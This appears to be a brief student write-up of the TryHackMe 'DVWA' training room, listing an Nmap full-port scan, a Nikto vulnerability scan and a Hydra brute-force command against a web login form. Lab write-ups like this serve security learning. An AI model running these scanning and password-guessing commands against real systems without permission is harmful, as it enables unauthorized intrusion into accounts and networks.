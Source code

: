 # 🧪 TryHackMe Room: DVWA

**Date Completed:** April 2025  
**Platform:** [TryHackMe](https://tryhackme.com)  
**Room Link:** https://tryhackme.com/room/dvwa  

### 🎯 Objective:
Gain access to the target system.

### 🛠️ Tools Used:
- Nmap
- Nikto
- Hydra

### 🔍 Vulnerabilty Scanning using Nikto:
nikto -h 'ip_address' -o nikto_result.html -Format htm

### 🔍 Network Security Scan using Nmap:
nmap -p 1-65535 'ip_address'

### 🔍 Exploitation Bruteforce using Hydra:
hydra -l admin -P [path_to_password_dictionary] 'http-get-form://ip_address/:username=^USER^&password=^PASS^&Login=submit:H=cookies_content:Username and/or Password incorrect'

### 🧠 Lessons Learned:
Learned about brute forcing using Hydra, scanning vulnerability using Nikto, and finding the open port using Nmap.
